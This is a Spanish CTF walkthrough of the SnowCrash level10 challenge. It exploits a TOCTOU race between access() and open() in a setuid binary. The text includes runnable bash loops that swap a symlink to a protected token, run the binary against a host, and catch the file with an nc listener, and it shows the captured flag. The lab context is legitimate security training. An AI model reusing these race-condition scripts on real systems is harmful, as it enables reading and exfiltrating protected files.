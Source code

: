 1. **Busqueda de archivos**

    Entontramos otro binario `level10` que al ejecutarlo nos pide un `archivo`y `host`
    ```bash
    ./level10 file host
        sends file to host if you have access to it
    level10@SnowCrash:~$ ./level10 token localhost
    You don't have access to token
    ```
    Con el comando strings:
    ```bash
    [...]
    access
    open
    %s file host
	sends file to host if you have access to it
    Connecting to %s:6969 .. 
    Unable to connect to host %s
    .*( )*.
    Unable to write banner to host %s
    Connected!
    Sending file .. 
    Damn. Unable to open file
    Unable to read from file: %s
    wrote file!
    You don't have access to %s
    [...]
    ```
    - Comprueba permisos con access()
    - Luego abre el archivo con open() y lo usa (léido o enviado al "host")
    
    - Verificando las notas de `man access` podemos entender que:
    Si un programa utiliza access() para comprobar si tiene permisos sobre un archivo y, después, en un paso separado, open() abre ese archivo, existe una ventana de tiempo entre ambas acciones. Durante ese intervalo, otro usuario o proceso puede cambiar el archivo original por otro diferente (por ejemplo, mediante un enlace simbólico o reemplazo de archivo). Esto significa que el programa termina abriendo, leyendo o escribiendo en un archivo distinto al que verificó inicialmente, lo que puede generar riesgos de seguridad.  


2. **Explotación**

    Vamos a crear un script que haga lo siguiente:
    - Crear un toggle (bucle) que cambie rapidamente el destino de un enlace simbolico `/tmp/link` entre dos archivos diferentes
        - Uno es un archivo normal y legible `/tmp/ok`
        - El otro es el archivo protegido que queremos leer `~/token`
    El objetivo es que, durante la ejecucion del binario vulnerable `level10`, el enlace simbolico apunte al archivo protegido justo en el momento adecuado, explotando la vulnerabilidad de carrera `(TOCTOU)`

    ```bash
    level10@SnowCrash:~$ vim /tmp/exploit.sh
    level10@SnowCrash:~$ chmod +x /tmp/exploit.sh
    level10@SnowCrash:~$ /tmp/exploit.sh
    You dont have access to /tmp/link
    Contenido: 
    /tmp/exploit.sh: line 14:  1809 Terminated              nc -l 6969 > /tmp/flag
    Connecting to 127.0.0.1:6969 .. Connected!
    Sending file .. wrote file!
    Contenido: woupa2yuojeeaaed06riuj63c
    ```

crer un script en una terminal
vim /tmp/enlace.sh
#!/bin/bash

while true; do
        touch /tmp/flag
        rm -f /tmp/flag
        ln -s /home/user/level10/token /tmp/flag
        rm -f /tmp/flag
done

otro script en otra terminal
vim /tmp/exec.sh
#!/bin/bash

while true; do
        /home/user/level10/level10 /tmp/flag 192.168.18.10
done

las conexiones se muestran en la otra terminal
 nc -lk 6969
 .*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c

explotamos access race condition exploit, el tiempo entre comprabar si tenemos aceso al archivo y el abrir el archivo